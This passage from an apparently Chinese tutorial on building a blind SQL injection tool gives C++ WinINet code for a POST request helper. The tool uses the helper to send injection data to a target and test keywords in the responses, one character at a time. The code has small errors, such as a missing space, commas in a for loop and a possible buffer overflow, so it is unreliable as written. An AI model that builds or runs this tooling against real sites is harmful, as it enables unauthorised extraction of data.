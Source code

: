 接下来我们把这段代码放在另外一个循环里`for(i=1,i<21,i++)`这样就可以循环遍历user每一位字符。多线程我们放到最后来讲。

0x01 POST方式注入
=====

和`get`方式不同的地方，这里`post`注入参数在`data`中，其实放在哪里都没关系，主要的是要将数据向对方`80`端口发送出去，最后我们要获取返回内容并根据`keyword`来判断条件的真假，最终确定我们想要得到的每个字符。与`GET`方式不同的是我们需要实现一个函数，来向服务器`post`请求数据，完整代码如下：

```
CString Postdata(char *url,char *data)  //传递两个参数 url 和data
{
LPTSTR AcceptTypes[2] = {TEXT("*/*"), NULL}; //接受文件的类型
CString strHeaders = _T("Content-Type: application/x-www-form-urlencoded\r\n");
charszReferer[100]  = "http://www.test.com";  
CString szFormData   = data;   //post的”参数“
HINTERNET   hSession;      
HINTERNET   hConnect;      
HINTERNET   hRequest;      
BOOL        bReturn  = FALSE;   
char *p1,*p2;
p1=strstr(url,"//"); //对url处理 获得服务器地址 以及访问目录
p1+=2;
p2=strstr(p1,"/");
char host[100];
memset(host,0,100);
strncpy(host,p1,p2-p1);
p2++;
char road[100];
memset(road,0,100);
strcpy(road,p2); // 建立HTTP请求
hSession = InternetOpen("AutoVoteVisPostMethod",
    INTERNET_OPEN_TYPE_PRECONFIG,NULL,NULL,0);  
hConnect = InternetConnect(hSession,host,
INTERNET_DEFAULT_HTTP_PORT,NULL,NULL,INTERNET_SERVICE_HTTP,0,1);       hRequest = HttpOpenRequest(hConnect,"POST",road,
    "HTTP/1.1",szReferer,(LPCSTR *)&AcceptTypes,INTERNET_FLAG_RELOAD,1); // 提交数据
LPVOID pBuf = (LPVOID)szFormData.GetBuffer(szFormData.GetLength());   
bReturn = HttpSendRequest(hRequest,
    strHeaders,-1L,pBuf,szFormData.GetLength());   
char    szRecvBuf[1024];        // 接受数据缓冲区   
DWORD   dwNumberOfBytesRead;    // 服务器返回大小   
DWORD   dwRecvTotalSize=0;      // 接受数据总大小   
DWORD   dwRecvBuffSize=0;       // 接受数据buf的大小   
CFile   m_File;                 // 将返回数据写入文件   
CString strTemp,mystr;                // 临时消息框   
memset(szRecvBuf,0,1024);   
 do  
{      
    // 开始读取数据   
    bReturn = InternetReadFile(hRequest,szRecvBuf,1024,&dwNumberOfBytesRead);           
   szRecvBuf[dwNumberOfBytesRead] = '\0';   
    dwRecvTotalSize += dwNumberOfBytesRead;   
    dwRecvBuffSize  += strlen(szRecvBuf);   
    mystr+=szRecvBuf;
  } while(dwNumberOfBytesRead !=0);   
return mystr;
}

```
